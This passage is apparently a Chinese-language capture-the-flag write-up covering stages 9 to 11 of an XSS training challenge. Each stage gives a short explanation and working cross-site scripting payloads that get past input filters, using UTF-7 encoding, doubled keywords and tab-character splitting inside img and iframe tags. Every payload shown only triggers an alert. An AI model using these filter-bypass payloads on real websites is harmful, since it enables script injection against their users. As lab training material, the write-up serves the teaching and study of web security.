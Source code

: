 **payload：**

```
javascript:alert(document.domain)
```



### Stage #9

#### 考点：UTF-7编码

#### 思考：

这一关是利用UTF-7编码的，需要环境是IE 7

**payload：**

```
" onmouseover=alert(document.domain)>
+/v8 +ACI- onmouseover=alert(d+AG8AYw-u+AG0-en+AHQALg-d+AG8AbQBh-in)+AD4-
```



### Stage #10

#### 考点：双写绕过

#### 思考：

domain被过滤了，使用双写绕过

**payload：**

```
"><script>alert(document.domdomainain)</script>
```



### Stage #11

#### 考点：&#09，不可见字符的截断

#### 思考：

题目将script；on[a-z]，style都过滤了，于是采用截断

**payload：**

```
"><img src=1 onerr&#09;or=alert(document.domain);>

"><iframe src=javascr&#09;ipt:alert(document.domain);>	//不直接进入下一题
```



## XSS-labs
